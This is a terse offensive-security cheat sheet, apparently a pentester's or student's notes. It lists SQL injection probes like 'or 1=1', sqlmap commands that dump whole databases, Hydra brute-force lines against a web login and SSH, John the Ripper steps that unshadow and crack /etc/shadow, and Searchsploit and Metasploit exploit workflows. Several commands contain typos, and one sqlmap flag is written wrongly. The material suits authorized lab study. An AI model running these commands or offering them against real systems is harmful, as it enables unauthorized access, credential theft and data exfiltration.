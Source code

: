 


### Manual SQL

>- ' and 1=1; -- -  | True returns something

>- ' and 1=2;-- -   | False does not return anything
 
>- ' or 1=1; -- - 

>- ' or 1=2; -- - 


### SQLmap 


>- sqlmap -u "URL" -- > qquick enumeration fro the URL


>- sqlmap -u "URL" -b --> get the banner 


>- sqlmap -u "URL" --tables --> to get the tables 

>-  sqlmap -u "URL" --dumps --> dumps all the database

&nbsp;

### Hydra:

> -  hydra targetWebsite http-post-form "/login.php:user=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt  -f -v

&nbsp;
>  - hydra 192.168.2.4 ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-10.txt -f -v 

	
&nbsp;

	
### John

__Unshadow__

> - unshadow /etc/passwd /etc/shadow > hashes.txt 

> - john --wordlist=/usr/share/john/password.lst hashes

> - John --show hashes 


&nbsp;


### Metaploit:

### Searchsploit :

> - searchsploit nameofVuln OS_type
        
> - searchsolit rpc windows
            
> - searchsploit MS08-067 windows



### Metasploit :


> - search vlunerabilityName
        
> - search OSType
        
> - use pathof the exploit

> - show payloads

> - set payloads typeofPayload
        
> - set RHOST
        
> - set RPORT 
        
> - exploit



